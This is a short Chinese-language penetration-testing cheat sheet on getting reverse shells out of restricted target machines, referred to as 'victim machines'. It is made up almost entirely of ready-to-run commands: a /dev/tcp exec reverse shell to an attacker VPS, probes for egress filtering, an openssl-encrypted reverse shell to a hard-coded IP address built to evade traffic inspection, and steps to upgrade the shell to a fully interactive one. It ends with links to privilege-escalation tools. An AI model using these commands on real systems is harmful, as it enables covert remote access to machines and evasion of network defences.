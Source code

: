 目标不能反弹shell的四种情况：  
1、无反弹命令的检查方法
```
受害机上执行：
whereis bash nc python php exec perl ruby telnet

用exec反弹shell：
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196
其他命令可通过浏览器插件Hack-Tools查看
```
2、禁止向外流量的检查方法
```
VPS上执行：
tcpdump -i eth0 -n -v icmp|grep -i "length 93"

受害机上执行：
ping -s 65 -c 1 xx.xx.xx.xx
```
3、限定向外端口的检查方法
```
VPS上执行：
nc -n -v -lp 3636

受害机上执行：
curl http://xx.xx.xx.xx:3636
```
4、流量审查的检查方法
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect 121.4.92.66 > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-Z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
```

参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://github.com/uknowsec/SweetPotato  
https://github.com/uknowsec/getSystem
